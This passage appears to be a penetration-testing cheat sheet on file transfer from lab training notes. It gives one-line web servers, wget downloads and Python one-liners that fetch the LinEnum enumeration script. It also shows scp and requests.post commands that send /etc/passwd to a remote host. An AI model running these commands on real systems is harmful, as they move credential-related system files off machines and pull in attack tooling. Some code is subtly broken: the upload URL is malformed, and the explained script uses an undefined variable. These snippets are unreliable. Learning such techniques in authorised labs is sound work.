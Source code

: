 ```shell
```
#### Linux - Creating a Web Server with Python2.7
```shell
python2.7 -m SimpleHTTPServer
```
#### Linux - Creating a Web Server with PHP
```shell
php -S 0.0.0.0:8000
```
#### Linux - Creating a Web Server with Ruby
```shell
ruby -run -ehttpd . -p8000
```
#### Download the File from the Target Machine onto the Pwnbox
```shell
wget 192.168.49.128:8000/filetotransfer.txt
```
## SCP Upload
#### File Upload using SCP
```shell
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```
# Transferring Files with Code
## Python
#### Python 2 - Download
```shell
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python 3 - Download
```shell
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
### Python3 - Upload
#### Starting the Python uploadserver Module
```shell
python3 -m uploadserver 
```
#### Uploading a File Using a Python One-liner
```shell
python3 -c 'import requests;requests.post("http:<IP>//:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
##### Commands Explained
```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```